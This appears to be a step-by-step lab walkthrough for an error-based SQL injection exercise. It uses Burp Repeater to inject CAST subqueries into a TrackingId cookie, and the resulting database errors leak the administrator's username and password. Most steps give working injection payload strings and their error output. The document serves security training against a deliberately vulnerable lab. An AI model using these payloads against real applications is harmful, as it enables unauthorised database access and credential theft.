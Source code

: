```yaml
---
dg-publish: true
---
```







1. Using Burp's built-in browser, explore the lab functionality.
2. Go to the **Proxy > HTTP history** tab and find a `GET /` request that contains a `TrackingId` cookie.
3. In Repeater, append a single quote to the value of your `TrackingId` cookie and send the request.`TrackingId=ogAZZfxtOKUELbuJ'`
4. In the response, notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. Observe that your injection appears inside a single-quoted string.
5. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:`TrackingId=ogAZZfxtOKUELbuJ'--`
6. Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.
7. Adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type:`TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
8. Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
9. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
10. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
11. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
12. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
13. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
14. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
15. Modify the query to return only one row:`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
16. Send the request. Observe that the error message now leaks the first username from the `users` table:`ERROR: invalid input syntax for type integer: "administrator"`
17. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password:`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
18. Log in as `administrator` using the stolen password to solve the lab.